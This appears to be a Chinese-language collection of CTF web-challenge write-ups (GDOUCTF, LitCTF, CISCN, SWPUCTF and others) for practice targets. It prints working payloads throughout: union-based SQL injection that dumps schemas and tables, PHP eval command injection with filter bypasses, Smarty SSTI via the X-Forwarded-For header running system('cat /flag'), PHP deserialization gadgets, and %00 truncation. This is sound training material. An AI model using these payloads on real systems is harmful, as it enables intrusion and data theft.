





# [GDOUCTF 2023]EZ WEB


在源码里发现目录src，直接访问


### **1. 初始化 Flask 应用**

```
python复制编辑import flask

app = flask.Flask(__name__)
```

- `flask.Flask(__name__)`：创建一个 Flask 应用实例。
  - `__name__` 告诉 Flask 当前模块名，以便定位资源（比如模板和静态文件）。

------

### **2. 根路由 `/`**

```
@app.route('/', methods=['GET'])
def index():
    return flask.send_file('index.html')
```

- **路径**：`/`

- **HTTP 方法**：`GET`

  当用户访问网站根目录 `/` 时，调用 `index()` 函数。

  `flask.send_file('index.html')` 将 `index.html` 文件直接返回给浏览器。

### **3. `/src` 路由**

```
@app.route('/src', methods=['GET'])
def source():
    return flask.send_file('app.py')
```

**路径**：`/src`

**HTTP 方法**：`GET`

当访问 `/src` 时，调用 `source()` 函数。

直接返回 `app.py` 文件内容。

### **4. `/super-secret-route-nobody-will-guess` 路由**

```
@app.route('/super-secret-route-nobody-will-guess', methods=['PUT'])
def flag():
    return open('flag').read()
```

**HTTP 方法**：`PUT`（而不是常见的 GET/POST）

当客户端用 **PUT 方法**访问该路径时，返回 `flag` 文件内容。

于是乎，我们只要以put方式访问路径即可

**linux**

```
curl -X PUT http://example.com/super-secret-route-nobody-will-guess
```

**windows**

```
curl.exe -X PUT http://node5.anna.nssctf.cn:20260/super-secret-route-nobody-will-guess
```


**python脚本**

```
import requests

# 目标 URL
url = "http://node5.anna.nssctf.cn:20260/super-secret-route-nobody-will-guess"

# 发送 PUT 请求
response = requests.put(url)

# 输出响应内容
if response.status_code == 200:
    print("Flag 内容：")
    print(response.text)
else:
    print(f"请求失败，状态码: {response.status_code}")
```

**Flag 内容：**
NSSCTF{e0369c79-e737-4404-96f7-af0cd34f3e5b}

## **PUT 方法？**

- **定义**：`PUT` 用于向服务器上传资源，并将其存储在指定 URL 位置。
- **语义**：请求的目标 URL **即是资源的最终位置**，如果该 URL 已经有资源，PUT 请求会 **覆盖** 现有资源。

换句话说：“客户端告诉服务器：我要把这个资源放到（替换到）你指定的 URL 里。”


# [GDOUCTF 2023]泄露的伪装


什么都没有，尝试dirsearch扫描一下

python dirsearch.py -u http://node5.anna.nssctf.cn:25690/


依次访问


这个没什么作用

第二个


下载压缩包打开，是这样的，于是去/orzorz.php看看


**使用php伪协议**

```
?cxk=data://text/plain,ctrl
?cxk=data://text/plain;base64,Y3RybA==
```


# [UUCTF 2022 新生赛]ez_rce


```
eval($_GET['code']);  // 用户输入直接被当作PHP代码执行
```

过滤了很多，但是没有过滤/

于是构造

```
?code=printf(`l\s /`);
?code=printf(`l''s /`);
```


```
?code=printf(`c\at /fffffffffflagafag`);
?code=printf(`c''at /fffffffffflagafag`);
```


# [HNCTF 2022 Week1]2048


翻源码，翻到，游戏结束的判定，那flag应该就在这里

## `String.fromCharCode` 

是 JavaScript 的一个静态方法，用来根据一组 Unicode 编码（字符编码）生成对应的字符串。

控制台直接输入

```
console.log(String.fromCharCode(24685,21916,33,102,108,97,103,123,53,51,49,54,48,99,56,56,56,101,50,53,99,51,102,56,50,56,98,50,51,101,51,49,54,97,55,97,101,48,56,51,125));
```


# [LitCTF 2023]这是什么？SQL ！注一下 ！


二次元蒸鹅心，口区

```
$sql = "SELECT username,password FROM users WHERE id = ".'(((((('.$_GET["id"].'))))))';
```

sql语句直接给了出来，相比以往，只是闭合方式发送变化

```
1)))))) --+
```


**查询回显位**

```
1)))))) group by 2 --+
```

测试结果为2

**爆库**

```
1)))))) union select 1,database() --+
```


数据库为ctf

**爆表**

```
1)))))) union select 1,group_concat(table_name) from information_schema.tables where table_schema=database()--+
```


**爆列**

```
1)))))) union select 1,group_concat(column_name) from information_schema.columns where table_schema=database() and table_name="users"--+
```


**爆字段**

```
-1)))))) union select username,password from users--+
```


可恶，是假的


看来不在ctf库中

## sql查找所有数据库

**再次查找所有数据库**

```
-1)))))) union select 1,schema_name from information_schema.schemata--+
```

**`schema_name` 字段**

`schema_name` 是 `schemata` 表中的一个字段，表示**数据库的名称**。

执行：

```
SELECT schema_name FROM information_schema.schemata;
```



还有一个ctftraining 

**爆表**

```
-1)))))) union select 1,group_concat(table_name) from information_schema.tables where table_schema="ctftraining"--+
```


**爆列**

```
-1)))))) union select 1,group_concat(column_name) from information_schema.columns where table_schema="ctftraining" and table_name="flag"--+
```



**爆字段**

```
-1)))))) union select 1,flag from ctftraining.flag--+
```




# [GDOUCTF 2023]hate eat snake

贪吃蛇小游戏

打开源码，搜索if或者alert


### 方法一

过关的条件是**getScore>60**
搜索发现getScore在**Snake.prototype**中

```
Snake.prototype.getScore = () => 61
```


### 方法二

控制台输入derectkey = 40，之后等一分钟。

NSSCTF{J_0k3r_h0pe_to_have_@_girlfriend}

### 方法三

先玩游，得到分数后在放着界面停留60秒，再按空格，获取flag

### 方法四

```javascript
alert(_0x324fcb(0x2d9,0x2c3,0x2db,0x2f3)+'k3r_h0pe_t'+_0xe4a674(0x5a1,0x595,0x59e,0x57c)+'irlfriend}'),![];
```

里面包含两个函数，直接把前面的函数定义都放到控制台里，再执行alert（这是别的大佬的题解，我自己尝试的时候直接卡死了）

### 方法五

js里面有个speed++，将源码下载到本地，删掉speed++，等待60s，即可（我尝试在本地运行，同样的源码却无法运行，等之后再尝试一下吧）

# [CISCN 2019华东南]Web11


## SSTI（服务器端模板注入）

主要发生在Web应用中，利用模板引擎的机制，通过不安全的模板渲染引擎执行恶意的用户输入。

### 模板引擎概述：

模板引擎是在Web开发中使用的一种技术，目的是将用户界面与业务数据分离，简化前端代码的生成。它通过模板和业务数据生成最终的HTML代码。开发者使用模板引擎来生成前端代码，模板引擎提供了渲染和生成HTML代码的功能。

一般流程是：

1. 获取业务数据（如用户输入）。
2. 使用模板渲染函数，将数据填充进模板。
3. 模板引擎生成最终的HTML并返回给浏览器显示。

### SSTI（服务器端模板注入）漏洞

SSTI漏洞是由于服务器端模板引擎未对用户输入进行充分的过滤和处理，导致恶意输入被直接渲染成模板的一部分。在模板引擎执行编译渲染时，恶意输入的代码可能会被执行，从而导致：

- **敏感信息泄露**：可能通过模板引擎泄露服务器上的敏感信息（如系统路径、环境变量等）。
- **远程代码执行**：攻击者通过注入恶意代码，执行任意操作。
- **GetShell**：通过注入的恶意代码获取服务器Shell，进一步执行恶意命令。

## Smarty

**Smarty** 是一种流行的PHP模板引擎，它为了防止模板引擎执行恶意代码，提供了一个“安全模式”。该安全模式通过限制可以在模板中调用的PHP函数，避免了执行不安全的函数。具体来说，在安全模式下，只允许在白名单中的函数被调用，这意味着攻击者不能直接通过模板执行PHP的危险函数。


可以看到页面使用了Smarty模板，同时显示了IP

**Smarty支持使用{php}{/php}标签来执行被包裹其中的php指令**

**XFF头代表了HTTP的请求端真实的IP，通过修改XXF头可以实现伪造IP**

**全部的PHP条件表达式和函数都可在`{if}`中使用**

题目给的两个url进不去，也不知道有啥用。但我们目前确定的思路就是通过伪造XFF，利用SSTI构造payload，实现命令执行

尝试构造X-Forwarded-For:{6*6}



***Request Header最底下一定要两个空行，第一个空行前表示请求头，第二个空行表示请求体，若没有这两个空行就传不进去***

证明这里存在SSTI

- 再构造`X-Forwarded-For:{system('cat /flag')}`


### 方法二

测试可以执行php函数

```
X-Forwarded-For: {if phpinfo()}{/if}
```

```
{if system('ls')}{/if}
{if system('ls /')}{/if}
{if system('cat /flag')}{/if}
```

# [HNCTF 2022 Week1]easy_html


一开始去看hackbar里显示的cookie值，没什么有用的信息


这里前端限制了最大长度为10，改为11，输入12345678900（任意11位数）


# [SWPUCTF 2022 新生赛]1z_unserialize


关键是a的值，也就是lt和lly

构造

```
<?php

class lyh{
    public $url = 'NSSCTF.com';
    public $lt;
    public $lly;
}

$w=new lyh();
$w->lt='system';
$w->lly='ls';
$w=serialize($w);
echo $w;

?>
```

```
O:3:"lyh":3:{s:3:"url";s:10:"NSSCTF.com";s:2:"lt";s:6:"system";s:3:"lly";s:2:"ls";}
```


回显正确

将lly改为 cat /flag


# [SWPUCTF 2022 新生赛]奇妙的MD5


## **ffifdyop**（还是比较奇妙的）

经过md5加密后：276f722736c95d99e921722cf9ed621c

再转换为字符串：'or'6<乱码> 即  `'or'66 ]  !r,  b`

用途：

select * from admin where password=''or'6<乱码>'

就相当于select * from admin where password=''or 1 实现sql注入


因为是若比较，直接构造，也可以用字符串进行绕过

```
?x[]=1&y[]=2
```


```
wqh[]=1&dsy[]=2
```

# [SWPUCTF 2022 新生赛]ez_ez_unserialize


```
<?php

class X{
    public $x ;
    function __construct($x)
    {
        $this->x = $x;
    }
    function __wakeup()
    {
        if($this->x !== __FILE__){
            $this->x = __FILE__;
        }
    }
    function __destruct()
    {
        highlight_file($this->x);
        //flag is in fllllllag.php
    }
}

$w = new X("fllllllag.php");  // 注意这里是字符串，需要传入参数
$serialized = serialize($w);
echo $serialized;

?>
```

```
O:1:"X":1:{s:1:"x";s:13:"fllllllag.php";}改为
O:1:"X":2:{s:1:"x";s:13:"fllllllag.php";}
```


## `$_REQUEST['x']` 解释

- `$_REQUEST` 是 PHP 里的一个超全局数组，包含了客户端通过 HTTP 请求发送过来的参数。
- 这个数组综合了 `$_GET`（URL 查询参数）、`$_POST`（POST 请求体参数）和 `$_COOKIE`（浏览器 Cookie）里面的参数。
- `$_REQUEST['x']` 就是取名为 `x` 的请求参数的值。

举个例子：

- 如果你的网页地址是 `http://example.com/page.php?x=hello`，那么 `$_REQUEST['x']` 的值就是 `"hello"`。
- 如果通过 POST 请求体提交了一个名为 `x` 的参数，`$_REQUEST['x']` 也能拿到它。


# [GKCTF 2020]cve版签到


##  %00截断

**原理：**截断是操作系统层的漏洞，由于操作系统是C语言或汇编语言编写的，这两种语言在定义字符串时，都是以\0（即0x00）作为字符串的结尾。操作系统在识别字符串时，当读取到\0字符时，就认为读取到了一个字符串的结束符号。因此，我们可以通过修改数据包，插入\0字符的方式，达到字符串截断的目的。00截断通常用来绕过web软waf的白名单限制。

```
http://127.0.0.1%00.ctfhub.com
```


```
http://127.0.0.123%00.ctfhub.com
```


# [羊城杯 2020]easycon

扫到

```
python dirsearch.py -u http://node4.anna.nssctf.cn:28921/
```


访问index.php

提示


post传入cmd参数


查看bbbbbbb.txt

```
cmd=${@show_source('bbbbbbbbb.txt')};
cmd=system('cat ');
```


内容太多了，但在burp中可以显示完整

尝试蚁剑链接


下载


再base64转图片


# [NISACTF 2022]checkin


普通传值行不通

看颜色：第二段注释部分颜色不对。(url通过show_source函数在高亮源代码时按照php.ini中的设置来渲染)

鼠标扫：扫前面有后面代码同步。

=>**源码中有特殊unicode字符的存在。**

复制代码用winhex打开



选定右边实际字符的参名和参数，并将复制其16进制数值，在每两个字符前面加上%，转变成url编码格式

**插值脚本**

```
import re
string = "E280AEE281A620466C616721E281A9E281A64E315341435446"
# 写出正则表达式 任意2个字符
pattern = re.compile('.{2}')
# findall是找到所有的字符,再在字符中添加空格，当然你想添加其他东西当然也可以
print('%'.join(pattern.findall(string)))
```


# [MoeCTF 2022]baby_file


